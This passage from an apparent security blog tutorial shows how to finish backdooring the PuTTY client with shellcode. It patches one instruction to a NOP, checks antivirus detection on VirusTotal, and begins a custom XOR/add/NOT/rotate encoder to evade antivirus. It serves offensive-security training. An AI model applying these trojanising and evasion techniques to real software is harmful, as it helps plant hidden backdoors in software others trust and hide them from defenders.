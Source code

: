 ``` x86asm
004BB179 | 4E                    | dec esi                               |
```

We just need to change it to a `NOP` and we should be ready:

<div class="imgblock">

![Patching shellcode](https://res.cloudinary.com/fluid-attacks/image/upload/v1620330657/blog/backdooring-putty/patching1_hzrnmz.gif)

</div>

Let’s run our saved `putty-05.exe`:

<div class="imgblock">

![Patching shellcode](https://res.cloudinary.com/fluid-attacks/image/upload/v1620330663/blog/backdooring-putty/working2_adfozy.gif)

</div>

Mission accomplished\! We’ve got now a fully functional, yet backdoored
`PuTTY`.

## Encoding our shellcode

Let’s see how we are doing with antivirus detection:

``` console
$ msf-virustotal -f /mnt/hgfs/Desktop-Host/osce/putty/putty-05.exe
[*] Analysis Report: putty-05.exe (27 / 71): 919677186373a27cd4de5a2f21fa854784c330abf67bc4abbc893a0a594d1d28
```

Not so great. To improve that metric, we will need to encode our
shellcode using a self-made encoder.

A common method is to use the `XOR` instruction on every byte, but an
average antivirus nowadays will be able to revert it easily. We are
going to try something more.

The mutations we perform over the code must be reversible, so for the
sake of this example, I will use this encoder strategy:

1. `XOR` byte with key `0xD`.

2. Add `0x2` to byte.

3. Bit-wise negate byte.

4. Rotate left 8 bits.

**encoder.**

``` x86asm
xor byte [eax],0xd
add byte [eax],0x2
not byte [eax]
rol byte [eax],0x8
```
